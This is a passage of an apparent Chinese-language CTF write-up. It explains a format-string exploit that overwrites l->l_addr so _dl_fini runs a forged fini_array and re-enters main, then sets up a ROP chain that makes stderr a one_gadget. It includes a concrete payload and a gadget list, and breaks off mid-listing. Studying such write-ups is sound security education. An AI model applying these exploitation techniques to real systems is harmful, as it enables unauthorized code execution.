 其中的`l-&gt;l_info[DT_FINI_ARRAY]-&gt;d_un.d_ptr`指向`fini_array`段的地址，而`l-&gt;l_addr`为0，所以`l-&gt;l_addr+ l-&gt;l_info[DT_FINI_ARRAY]-&gt;d_un.d_ptr`=0x600DD8

在printf函数下断点，此时栈空间如下

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01acf51f03d100369b.png)

这个画框的实际上就是`l-&gt;l_addr`

在后续调用_dl_fini的过程中，有如下语句

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01b52e64e196f35ff8.png)

`_dl_fini`+788这条语句将[rbx]和r12相加，rbx里面存储的是fini_array的地址，rbx里面存储着的正是`l-&gt;l_addr`，也就是调用printf时栈中`_dl_init`+139上一行的值。因此我们可以通过格式化字符串修改`l-&gt;l_addr`的值，使`l-&gt;l_addr+ l-&gt;l_info[DT_FINI_ARRAY]-&gt;d_un.d_ptr`偏移到buf中，然后在buf中伪造fini_array里面的函数为main函数，这样就能够再次执行程序。

`l-&gt;l_addr`在printf中的偏移为%26，buf的地址为`0x601060`，fini_array的地址是`0x600dd8`，相差0x288，payload如下

```
payload = "%"+str(0x298)+"c%26$hn"
payload = payload.ljust(0x10,'\x00')+p64(0x4007A3)
```

因为我们输入的格式化字符要占一定空间，所以伪造的fini_array还需要往后挪一挪。伪造的fini函数直接从main函数中的read函数开始执行，这是为了避免从头执行会再一次初始化栈空间，这样我们做的就是无用功。

看到第二次执行printf时的栈空间

[![](https://p5.ssl.qhimg.com/t015b5e435e5325d4d6.png)](https://p5.ssl.qhimg.com/t015b5e435e5325d4d6.png)

此时我们就可以直接通过格式化字符串来修改返回地址了

接下来的利用思路就是在buf中写入ROP链，rop用来修改stderr为onegadget，格式化字符串用来修改printf函数的返回地址为pop rsp，将返回地址的下一行修改为rop链的起始地址，这样当printf函数结束时就会执行rop链。

用到的gadget如下

```
pop_rsp = 0x000000000040082d
#0x000000000040082d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
csu_pop = 0x000000000040082A
'''
.text:000000000040082A                 pop     rbx
.text:000000000040082B                 pop     rbp
.text:000000000040082C                 pop     r12
.text:000000000040082E                 pop     r13
.text:0000000000400830                 pop     r14
.text:0000000000400832                 pop     r15
.text:0000000000400834                 retn
'''
csu_call = 0x0000000000400810
'''
.text:0000000000400810                 mov     rdx, r13
.text:0000000000400813                 mov     rsi, r14
.text:0000000000400816                 mov     edi, r15d
.text:0000000000400819                 call    ds:(__frame_dummy_init_array_entry - 600DD0h)[r12+rbx*8]
'''
#万能gadget
stderr_ptr_addr = 0x0000000000601040
stdout_ptr_addr = 0x0000000000601020
adc_p_rbp_edx = 0x00000000004006E8
'''
.text:00000000004006E8 adc     [rbp+48h], edx
.text:00000000004006EB mov     ebp, esp
```